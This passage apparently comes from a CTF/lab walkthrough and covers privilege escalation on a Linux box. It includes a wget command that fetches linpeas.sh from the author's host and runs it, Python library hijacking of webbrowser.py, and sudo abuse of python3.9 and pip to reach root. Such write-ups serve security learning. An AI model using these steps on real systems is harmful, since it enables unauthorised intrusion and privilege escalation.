There is a domain called `empirecybersecurity.co.mz` which might associate with the target but nothing happen
I think that I should import linpeas for further scanning the server (I already knew that this server run Linux in the Nmap scanning section above, that is why I choose to use linpeas)
Set up a listener, and remember change directory to direction containing linpeas
```
python3 -m http.server 9001
```
On the remote server
```
wget http://{ip}:9001/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
<img width="1307" height="221" alt="Screenshot 2025-09-19 140955" src="https://github.com/user-attachments/assets/825e85d4-27ee-4315-8545-31e5932ae837" />

Here are the results:

<img width="299" height="226" alt="Screenshot 2025-09-19 141630" src="https://github.com/user-attachments/assets/572acc53-22cf-46bb-a083-aa8b477c9eb1" />
<img width="493" height="456" alt="Screenshot 2025-09-19 141524" src="https://github.com/user-attachments/assets/ea93f466-0397-4a13-b091-de00792979e1" />

If I had the ability to write on this python file which means that I can use python to spawn an executable bash under user `arsene` 
```
nano /usr/lib/python3.9/webbrowser.py
```

<img width="1275" height="224" alt="Screenshot 2025-09-19 142527" src="https://github.com/user-attachments/assets/d9dce581-5243-4de2-9207-ac48392b79b7" />

After add that line of code into the `webbrowser.py`, I need to use python3.9 to run the `heist.py` file in order to spawn a `arsene` bash. Now check sudo permissions for `icex64`

<img width="886" height="98" alt="Screenshot 2025-09-19 143216" src="https://github.com/user-attachments/assets/c33b82c7-2dc5-4ea5-8c27-2ab0b21b7344" />

For `/usr/bin/python3.9` to execute `/home/arsene/heist.py` does not require password which is what I want since I do not have the password for `icex64`
```
sudo -u /usr/bin/python3.9 /home/arsene/heist.py
```

<img width="1110" height="82" alt="Screenshot 2025-09-19 144135" src="https://github.com/user-attachments/assets/3e625140-810a-4bb9-ae92-ac96ef8a23f3" />

Now I'm disguished as `arsene`. Checking sudo permissions for this user since I do not obtain the password for this user either the same with `icex64`

<img width="902" height="98" alt="Screenshot 2025-09-19 144437" src="https://github.com/user-attachments/assets/9dd0826c-d030-4405-bdce-d6089c4634b4" />

For binary exploitation, I would use the site called `GTFObins` to find information about `usr/bin/pip`. TLDR: this command run without password -> exploit easier

<img width="864" height="212" alt="Screenshot 2025-09-19 144717" src="https://github.com/user-attachments/assets/78339b57-8a55-490f-90f3-5ca317c23c57" />

## Root 
<img width="932" height="99" alt="Screenshot 2025-09-19 144853" src="https://github.com/user-attachments/assets/9aadf346-b02f-46c0-9bc1-da32f9411fa5" />
<img width="811" height="743" alt="Screenshot 2025-09-19 144931" src="https://github.com/user-attachments/assets/cd317434-5ca8-4e8c-8673-f30ff93721bc" />

COMPLETED!!!! Happy hacking~~~
